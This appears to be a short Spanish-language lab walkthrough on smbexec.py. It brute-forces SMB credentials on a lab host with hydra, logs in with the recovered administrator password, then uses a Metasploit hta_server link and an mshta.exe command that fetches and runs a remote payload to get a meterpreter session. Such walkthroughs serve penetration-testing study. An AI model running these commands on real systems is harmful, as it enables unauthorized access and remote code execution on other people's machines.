 
Se trata de una herramienta usada para la ejecución de comandos de forma remota para sistemas windows tipicamente con privilegios de administrador usando SMB. Similar a la función de PsExec.

Diferencias con PsExec:

1. No creo un Servicio Temporal

Ejemplo de uso:

Tenemos de ip objetivo la 10.2.23.140

![[Pasted image 20250227090122.png]]

Vamos a intentar realizar un ataque de fuerza bruta al SMB

```bash
hydra -l administrator -P /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt 10.2.23.140 smb2
```

![[Pasted image 20250227091212.png]]

Tenemos usuario Administrator con passwd carolina. Ahora vamos a conectarnos con SMBexec.

```bash
smbexec.py administrator:carolina@10.2.23.140
```

![[Pasted image 20250227091529.png]]

Me he dado cuenta de que la conexión por SMBexec es límitada pero podemos tratar de conseguir una sesión de meterpreter. Para ello vamos a utilizar el módulo de hta_server.

![[Pasted image 20250227092131.png]]

Esto nos generara un link malicioso:

```bash
http://10.10.41.3:8080/tvR44KsXgch4A.hta
```

El comando en la máquina víctima es:

```
mshta.exe http://10.10.41.3:8080/tvR44KsXgch4A.hta
```

![[Pasted image 20250227092545.png]]

Aquí vemos como se ha creado la sesión correspondiente en meterpreter.





